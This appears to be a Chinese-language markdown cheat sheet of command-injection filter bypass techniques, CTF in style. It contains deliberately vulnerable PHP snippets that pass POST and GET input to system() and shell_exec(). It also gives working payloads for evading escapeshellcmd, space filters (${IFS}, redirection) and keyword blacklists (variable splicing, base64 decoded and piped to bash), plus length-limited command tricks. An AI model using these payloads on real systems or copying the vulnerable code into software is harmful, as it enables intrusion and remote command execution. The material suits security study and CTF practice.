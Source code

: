 # 绕过escapeshellcmd
## 法一：执行bat
```php 
<?php
    $command = 'dir '.$_POST['dir'];
    $escaped_command = escapeshellcmd($command);
    var_dump($escaped_command);
    file_put_contents('out.bat',$escaped_command);
    system('out.bat');
?>
```
执行.bat文件的时候，利用%1a，可以绕过过滤执行命令。
payload:
```
dir=../ %1a whoami
```
## 法二：宽字节注入
php5.2.5及之前可以通过输入多字节来绕过。现在几乎见不到了。
```
escapeshellcmd("echo ".chr(0xc0).";id"); 
```
之后该语句会变成
```
echo 繺;id 
```
从而实现 id 命令的注入。

# 空格过滤
## 法一： ${IFS}
payload1:
```
ubuntu@VM-207-93-ubuntu:~$ cat flag
nice day
ubuntu@VM-207-93-ubuntu:~$ cat${IFS}flag
nice day
```
payload2:
```
ubuntu@VM-207-93-ubuntu:~$ cat${IFS}$9flag
nice day
```
payload3:
```
ubuntu@VM-207-93-ubuntu:~$ cat$IFS$9flag
nice day

```
## 法二： 重定向符<>
payload1：
```
ubuntu@VM-207-93-ubuntu:~$ cat<>flag
nice day
```
payload2：
```
ubuntu@VM-207-93-ubuntu:~$ cat<flag
nice day
```

# 黑名单绕过
## 法一： 拼接
```
ubuntu@VM-207-93-ubuntu:~$ a=c;b=at;c=flag;$a$b $c
nice day
```
## 法二： 利用已存在的资源
从已有的文件或者环境变量中获得相应的字符。

## 法三： base64编码
payload1:
```
ubuntu@VM-207-93-ubuntu:~$ `echo "Y2F0IGZsYWc="|base64 -d`
nice day
```
payload2:
```
ubuntu@VM-207-93-ubuntu:~$ echo "Y2F0IGZsYWc="|base64 -d|bash
nice day
```

# 无回显

# 长度限制
## 文件构造
payload1:
```
a>wget
```
payload2:
```
1>wget
```
payload3:
```
>wget
```
将会创建一个名字为wget的空文件。payload1会报错，payload2不会报错。.
类似的，可以执行一系列操作，比如：
```

```

```php 
<?php
if(strlen($_GET[test])<8){
     echo shell_exec($_GET[test]);
}
?>
```

# LINUX下一些已有字符
+ ${PS2} 对应字符 '>'
+ ${PS4} 对应字符 '+'
+ ${IFS} 对应 内部字段分隔符
+ ${9}   对应 空字符串

# 工具
+ [shelling
](https://github.com/ewilded/shelling)

# Refference
+ [PHP绕过open_basedir列目录的研究](https://www.leavesongs.com/PHP/php-bypass-open-basedir-list-directory.html)
+ [eval长度限制绕过 && PHP5.6新特性](https://www.leavesongs.com/PHP/bypass-eval-length-restrict.html)
+ [关于lnmp目录禁止执行的绕过与正确方法](https://www.leavesongs.com/PENETRATION/nginx-deny-exec-php-file.html)
+ [一些不包含数字和字母的webshell](https://www.leavesongs.com/PENETRATION/webshell-without-alphanum.html)
+ [php webshell分析和绕过waf技巧](http://bobao.360.cn/learning/detail/3271.html)
+ [【技术分享】命令执行和绕过的一些小技巧](http://bobao.360.cn/learning/detail/3192.html)
+ [浅谈CTF中命令执行与绕过的小技巧](http://www.freebuf.com/articles/web/137923.html)
+ [Mathias:命令执行的bypass技巧](http://www.math1as.com/index.php/archives/484)